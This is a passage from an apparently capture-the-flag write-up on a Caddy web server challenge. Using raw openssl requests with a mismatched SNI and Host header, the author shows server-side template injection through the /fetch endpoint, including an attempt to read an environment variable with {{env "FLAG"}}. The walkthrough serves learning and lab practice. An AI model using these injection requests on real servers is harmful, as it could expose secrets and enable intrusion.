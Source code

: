 Lets make a request to the /headers endpoint, and see what headers are returned (this is request is made with openssl to bypass the TLS cert checking):
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
ip: {{.ClientIP}}


```
This request is sent to the server, and the server responds with the following:
```
{
  "Ip": [
    "{{.ClientIP}}"
  ]
}
```

We can see that our template was not processed, and was returned to us as is. This is because the mustToPrettyJson function does not process templates.

That leaves us with the /fetch endpoint. This endpoint uses the httpInclude function, which includes the response from another endpoint in the response. Lets hit the /headers enpoint through this endpoint to see if we can get it to process the templates.
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
ip: {{.ClientIP}}


```

This request is sent to the server, and the server responds with the following:
```
{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Ip": [
    "172.18.0.1"
  ]
}
```

We can see that the request was processed, and the template was replaced with the IP address of the server. This is a good sign, as it means that the httpInclude function does process templates. (Upon further testing, it seems that the httpInclude function processes all of the templates in whatever it receives from the endpoint it is including).

Lets try to exploit this by including the /headers endpoint in the /fetch endpoint, and passing it a template that will call the env function. 
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
exploit: {{env "FLAG"}}


```
Response:
```
HTTP/1.1 500 Internal Server Error
```
